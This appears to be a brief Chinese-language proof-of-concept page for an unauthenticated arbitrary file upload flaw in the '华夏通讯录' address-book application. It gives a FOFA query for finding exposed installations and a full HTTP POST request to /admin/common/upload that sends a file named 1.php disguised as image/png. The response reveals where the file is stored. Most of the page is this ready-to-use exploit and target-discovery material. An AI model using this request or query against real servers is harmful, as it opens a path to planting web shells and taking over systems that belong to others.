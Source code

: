 # 华夏通讯录存在前台upload任意文件上传

华夏通讯录存在前台由于在鉴权方面存在疏漏，导致了可未授权访问，从而通过/admin/common/upload接口进行任意文件上传。

## fofa

```javascript
icon_hash="1403225079" && ":) APPV1"
```

## poc

```javascript
POST /admin/common/upload HTTP/2
Host: 127.0.0.1
Content-Type: multipart/form-data; boundary=---------------------------289666258334735365651210512949
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Length: 218

-----------------------------289666258334735365651210512949
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

1111
-----------------------------289666258334735365651210512949--
```
路径返回包中
![image](https://github.com/user-attachments/assets/96615f38-3cf9-44d9-ba76-85fae0f45b31)

